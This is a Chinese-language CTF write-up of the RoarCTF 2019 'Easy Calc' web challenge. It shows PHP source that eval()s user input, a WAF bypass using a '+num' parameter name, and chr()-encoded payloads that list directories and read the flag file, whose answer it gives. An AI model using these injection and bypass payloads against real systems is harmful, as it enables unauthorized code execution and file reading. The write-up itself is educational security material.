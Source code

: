 ```yaml
---
title: RoarCTF 2019 Easy Calc
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，随便测试一下，就发现一般的手段行不通了

![](https://p.sda1.dev/13/06513b02569849d88f42b0a62277f0b6/image.png)

打开 F12 看源码，发现他已经使用了 WAF（但是这个 WAF 策略我们是无从得知的），以及下面有一个 Ajax 使用 GET 请求将参数 `num` 给到了 `calc.php`

![](https://p.sda1.dev/13/2172087003d37976776f72fdb21a1fba/image.png)

我们进入 `/calc.php`，发现下面的源代码，仔细阅读下就能发现我们输入数据的黑名单，但现在首要目的是先绕过 WAF 的限制，使得我们传入的 `num` 参数能进入这个 PHP 代码中被执行

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

## WAF 绕过

我从 [FreeBuf](https://www.freebuf.com/articles/web/213359.html) 上找来了两张图片，可以说明 PHP 对传入参数的处理是怎么样的

![](https://p.sda1.dev/13/05736632a670e277acba2c1d82e15c95/image.png)

![](https://p.sda1.dev/13/53ed3879e34ebb48992e0d9cb0d1209b/image.png)

通过以上解释，我们就能尝试着绕过 WAF 的判断了，我们可以把传入的参数 `num` 改成 `+num`，因为这个 `+` 到 PHP 解析的时候就会被省略掉，到头来还是 `num`，但是对于 WAF 就不一样了，他只会觉得我们没有给 WAF 提供 `num` 参数，于是就很轻松地绕过了 WAF 的判断，现在，我们已经可以向 `num` 传入字符了

## 黑名单绕过

查看 `$blacklist` 数组，发现想绕过的话，一般的方法都用不了，我们通常都用 `system("ls /")` 来查看当前目录下的文件，但是使用 `system("ls /")` 就会直接触发黑名单，因为又有空格，又有引号，那么我们只能使用另外的方法了

### 扫描目录

直接说答案 **`+num=var_dump(scandir(chr(47)))`**，`chr(47)` 即 `/`，`scandir()` 就是扫描当前目录，`var_dump()` 就是调试模式输出内容（与 `echo` 单纯的打印字符串不同，`var_dump()` 可以打印变量信息），将 `+num=var_dump(scandir(chr(47)))` 传入后可看到以下内容，发现有一个 `f1agg` 文件

```
array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
```

### 阅读文件

阅读文件的时候也需要使用特殊的方法，毕竟我们对引号和空格没有使用权，那么我们就使用老方法，先说答案 **`+num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))`**，其中 `chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)` = `/f1agg`，`file_get_contents()` 就是从某个文件中阅读内容并输出，最后即可得出 Flag 为 `flag{9b928004-5776-4b60-bbb9-d32152c62db7}`